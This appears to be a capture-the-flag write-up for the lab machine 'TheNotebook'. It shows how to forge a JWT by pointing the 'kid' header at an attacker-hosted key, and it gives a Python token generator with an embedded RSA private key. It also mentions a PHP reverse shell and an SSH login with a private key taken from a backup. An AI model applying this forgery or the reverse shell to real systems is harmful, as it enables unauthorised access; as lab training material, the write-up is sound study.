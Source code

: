 # user
## forging jwt
![](src/TheNotebook-04.png)
- the token is copied to jwt.io for analysis
- it is a kid token which can be encoded with any key, in this case it was the server's private key
- the payload indicates admin capability of 0. 
- chaning this to 1 requires a new kid token to be generated.

### generate private key
````bash
openssl genrsa -out privKey.key 2048
````

### host the private key
````bash
python3 -m http.server 7070
````

<hr>

### generate the token using the private key

````python
# gentoken.py
#
import requests
from urllib3.exceptions import InsecureRequestWarning
import time
import jwt
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
epoch = time.time()

headers = {"typ": "JWT","alg": "RS256","kid": "http://10.10.14.17:7070/privKey.key"}

payload = {"username": "qdada","email": "qdada@thenotebook.htb","admin_cap":1}

thePrivateKey = '''-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAlpLjN7erdl8YjAgDoDW4MpXZCtAUgWsiXHqtwIHTGUZTbC1J
+i9Wrquxjrt170dpyIgT0iWSrqwTYKofhFt0Yc23j5kuKc27L708llJ5cHtkaU3L
G8L8zsq96bnBS2soAyCcOX6xE//gVXrpLb1Ue6S5en3/cczMK6tM5UBwCjuTjQYv
iAtdma7AW3n2DT9YMdy5fTd9pU/xxLcKQqYujt1rUxAQiEJA2fJkJH2KZDXI3whn
1q8/ha8HuA4XDrgPoBB7eu0vx+8Fj8HZluSp0hkhb95sJ4Ckn+OC3dvpm/8ehHWX
WHVcXdXTi/pVEsBvlVVyXJ7M2uiEsv91E/r83QIDAQABAoIBAFiWpzQ6zZhhLrIE
bQ2vTWYFn6Kq9cWG4LqEOwHN4AM4yxAUPTgC7f7qaRbO1/4lh+lBllfHX1uBRg1T
SiO3Iuv/+oVz3CMgNYdK0QCoGWbCUjtaV6tHtzF7OuzuKvlSXEIqx39UOJ7JppTk
MZiFkdUE/1NAGjA8C8uNhzpCBSkfKROvzbyWbdular/DyFxIwUrg5od+6AyohTuP
89EOJCrKlrFJCEN0ma3GYb8I0aS9zxdPIu5ytT9eL697ufbUx3Uaues81mhUYUBu
XCCC9z9FsWOKfNfSEqrlthBhO/d/94UIMjdCZN0Ybn9OmroIhTT07OGaLyf0v0g2
sXozb4ECgYEAxRKfAasbFYW6nmnvpZAvoEMVI3Vu507h7rj47JXBY6mIeb4ezCF9
U2MpPM+tz4BJUsdPHkA2CQMjnluGl/uYdk1uqtqcZh4ALdGgypHKRWL0tyLguOji
YQhCV2JdLOqAAbv6bCWGUVC7lHB5H4h8xivRAghMz5Ph/6InuvhEkm0CgYEAw5jl
+zPEU3vdQDKkZ/3KfHW60N2dONhfDCrz9xSuJ+grHoSLisZ58tN741kmWxL8rPq4
umgG6XQCFu3yvSK4kU2f8vp8drehoUE7d18V5913/KnjvN6e1O86A7myd/U7SpaH
T3rfqmYgqa8aeL1F1MwSKdRLFFQNcWuTgMqdDjECgYAz3ZK7fazDHU7gIkFP8YKX
SxBlJKLrfXc4vLXGjiM3d4bTg5XXY3j4WUChIIc99SVXA91uuLd/57OYGb5ygWS+
veJCVQaUWZDyfhkzNutlF4YQLL237JKntuS+2sRq7cyCqFZf4ABZpkW362H1SpaM
ETwQrN6KQwFXpfWO34gsgQKBgGQgyFJw7KbD+L4dbpYhkF9oMSss14g7E2T6NAuf
FYwuSKyFs51l/xV0d64pe/4RWTH/40Lhb/BgR5WPV7zEonEXqLLM0ZxAYshWyWdR
ULhyYjMAkSmlWO+uSyePDzJjYmfLaRch0o+7WisjDU0Tr0TA9udc2tZcNMmEBW1f
y0hxAoGARAnheEMshhX1cRaGKDc8o9uxzTxdQUTAzSoBtdAceLYLIXzokr+JHE31
XY0awQulzYGnCoOt2cdkKA/iQ5oZBzFOzcULc1Jq0gEulAF5xyr5v7UaM+DXm3x+
jHdHYZpwotoNerS+2BoXFtPS5Ap2ZUIRdIELpKYN6zGi7ZU+fOs=
-----END RSA PRIVATE KEY-----'''


auth = jwt.encode (payload,thePrivateKey, algorithm='RS256', headers = {"kid": "http://10.10.14.17:7070/privKey.key"} )
print(auth)
````

![](src/TheNotebook-05.gif)

<hr>

### substitute token


![](src/TheNotebook-06.gif)

- at this point the pentester monkey php reverseshell is loaded to receive a reverse shell

![](src/TheNotebook-07.gif)

<hr>

## backup files

![](src/TheNotebook-08.png)

- a backup file is found on /var/backups

![](src/TheNotebook-09.png)

- extracting this backup file reveals the user noah
- also reveald is noah's <span class='redunderline'>private key</span>

<hr>

## loging on with private key
````bash
ssh -i noah_id_rsa noah@10.10.10.230
````

![](src/TheNotebook-10.png)




